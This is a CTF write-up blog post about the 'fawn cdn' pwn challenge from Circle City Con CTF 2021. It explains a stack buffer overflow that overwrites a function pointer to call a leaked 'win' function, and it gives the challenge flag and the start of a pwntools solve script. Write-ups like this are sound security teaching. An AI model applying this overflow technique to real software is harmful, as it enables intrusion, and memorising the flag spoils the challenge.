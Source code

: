 +++
title = "Circle City Con CTF 2021"
date = 2021-06-13

[taxonomies]
tags = ["ctf-writeups"]
+++

I competed with ret2rev, finishing in 7th place. Writeups aren't complete; I started writing and stopped when I got bored lol. 




# fawn cdn (pwn)

```text
I'm starting a modern internet business! That means I need my own Content Delivery Network! Check it out and see what you think, I wrote it at a hackathon!
nc 35.224.135.84 1001
```

```text
❯ ./fawncdn
 ________ ________  ________  ________      
|\  _____\\   ____\|\   ___ \|\   ___  \    
\ \  \__/\ \  \___|\ \  \_|\ \ \  \\ \  \   
 \ \   __\\ \  \    \ \  \ \\ \ \  \\ \  \  
  \ \  \_| \ \  \____\ \  \_\\ \ \  \\ \  \ 
   \ \__\   \ \_______\ \_______\ \__\\ \__\
    \|__|    \|_______|\|_______|\|__| \|__|


1. List files.
2. Choose files.
3. Deliver files.
4. Quit.
```

[fawncdn](https://github.com/b01lers/circle-city-ctf-2021/raw/main/pwn/fawncdn/dist/fawncdn)

Got a menu-driven pwnable. Listing files gives a brief json error message and the address of the function "win" which writes the bytes of a file to stdout. Choose files does nothing useful, just prints out a json error message. Deliver files is the most interesting -- it executes a function pointer stored on the stack. There is a 9 byte buffer overflow when reading in the menu choice, which is sufficient to override the function pointer. We can then get the stored image like so:

1. leak win address by listing files
2. overwrite function pointer
3. invoke function pointer
4. read the image lol

![CCC{th3y_w3r3nt_ly1ng_th1s_CDN_c4n_d3l1v3r}](https://raw.githubusercontent.com/b01lers/circle-city-ctf-2021/main/pwn/fawncdn/solve/fawn.jpg)

```python
#!/usr/bin/env python3

from pwn import *
import re
exe = ELF("fawncdn")

context.binary = exe
context.terminal = "kitty"
def conn():
    if args.REMOTE:
        return remote("35.224.135.84", 1001)
    elif args.GDB:
        return gdb.debug([exe.path],gdbscript="b *main+269")
```